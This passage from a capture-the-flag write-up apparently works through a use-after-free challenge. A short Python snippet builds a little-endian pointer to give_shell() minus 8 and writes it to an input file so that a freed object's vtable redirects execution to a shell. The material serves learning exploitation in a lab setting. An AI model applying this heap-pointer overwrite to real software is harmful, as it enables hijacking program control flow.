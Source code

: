 So now we know that twe need a pointer to `0x401570`. I wrote a simple python code that subtract that address by 8 and then save the result in a file

```
...
give_shell_address = hex(0x401570 - 0x8)[2:]   # remove the '0x' prefix from the hex string
input_file_value = b"" + give_shell_address.decode('hex')[::-1] # convert bytes in little endian

with open("./input", "wb") as f:
    f.write(input_file_value)
...
```
This way when the heap memory allocated for the Man and Woman objects is read, the value of our file will be read instead. By adding the value of the file by 8, a pointer to the give_shell() function will be obtained and we will be able to read the flag.